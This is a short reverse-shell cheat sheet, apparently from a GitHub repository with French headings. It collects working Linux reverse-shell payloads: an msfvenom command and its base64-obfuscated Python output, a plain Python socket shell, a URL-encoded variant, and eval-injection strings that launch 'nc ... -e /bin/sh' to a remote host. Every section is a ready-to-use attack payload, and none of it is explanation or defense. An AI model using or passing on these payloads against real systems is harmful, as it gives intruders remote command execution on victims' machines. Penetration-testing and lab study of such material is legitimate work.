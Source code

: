 # Linux_reverseShell
## msfvenom
msfvenom -p cmd/unix/reverse_python LHOST=10.10.13.149 LPORT=10443 -f raw 

[-] No platform was selected, choosing Msf::Module::Platform::Unix from the payload
[-] No arch selected, selecting arch: cmd from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 525 bytes
python -c "exec('aW1wb3J0IHNvY2tldCAgICAgLCAgICBzdWJwcm9jZXNzICAgICAsICAgIG9zICAgICA7ICAgIGhvc3Q9IjEwLjEwLjEzLjE0OSIgICAgIDsgICAgcG9ydD0xMDQ0MyAgICAgOyAgICBzPXNvY2tldC5zb2NrZXQoc29ja2V0LkFGX0lORVQgICAgICwgICAgc29ja2V0LlNPQ0tfU1RSRUFNKSAgICAgOyAgICBzLmNvbm5lY3QoKGhvc3QgICAgICwgICAgcG9ydCkpICAgICA7ICAgIG9zLmR1cDIocy5maWxlbm8oKSAgICAgLCAgICAwKSAgICAgOyAgICBvcy5kdXAyKHMuZmlsZW5vKCkgICAgICwgICAgMSkgICAgIDsgICAgb3MuZHVwMihzLmZpbGVubygpICAgICAsICAgIDIpICAgICA7ICAgIHA9c3VicHJvY2Vzcy5jYWxsKCIvYmluL2Jhc2giKQ=='.decode('base64'))"


## a la main:
python -c 'import socket, subprocess, os; s=socket.socket(socket.AF_INET, socket.SOCK_STREAM); s.connect( ("192.168.1.20",1234)); os.dup2 (s.fileno() ,0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call( ["/bin/sh","-i"] );'


## URL ENCODE:

>>> import urllib.parse
>>> urllib.parse.quote(shell)
'import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%2210.10.13.149%22%2C10443%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3Bos.dup2%28s.fileno%28%29%2C1%29%3B%20os.dup2%28s.fileno%28%29%2C2%29%3Bp%3Dsubprocess.call%28%5B%22/bin/sh%22%2C%22-i%22%5D%29%29%3B'



## injection avec eval(..):

'__import__("os").system("nc 10.10.13.149 10443 -e /bin/sh").read()'

'__import__(\"os\").system(\"nc 10.10.13.149 10443 -e /bin/sh").read()

## shell simple
#!/usr/bin/env python
import os
os.system('/bin/bash')

